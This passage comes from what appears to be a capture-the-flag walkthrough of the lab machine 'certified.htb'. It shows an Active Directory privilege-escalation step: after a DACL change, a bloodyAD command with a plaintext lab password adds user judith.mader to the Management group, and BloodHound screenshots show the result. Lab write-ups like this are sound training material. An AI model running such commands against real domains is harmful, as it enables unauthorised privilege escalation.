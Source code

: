 ```bash

[*] DACL modified successfully!

```
> Displaying in `BloodHound`:

![bloodhound_judith_fullrights](./screenshots/bloodhound_judith_fullrights.png)

> Since members of the `Management` group have `GenericWrite` permissions over the `management_svc` service account then having full rights over this group I add the user `judith.mader` there.

> I use the `bloodyAD` utility to add:

```bash

sudo bloodyAD --host 10.10.11.41 -d certified.htb -u judith.mader -p judith09 add groupMember "Management" "judith.mader"

[+] judith.mader added to Management

```

> In `BloodHound` the result will be as follows:

![bloodhound_judith_management](./screenshots/bloodhound_judith_management.png)
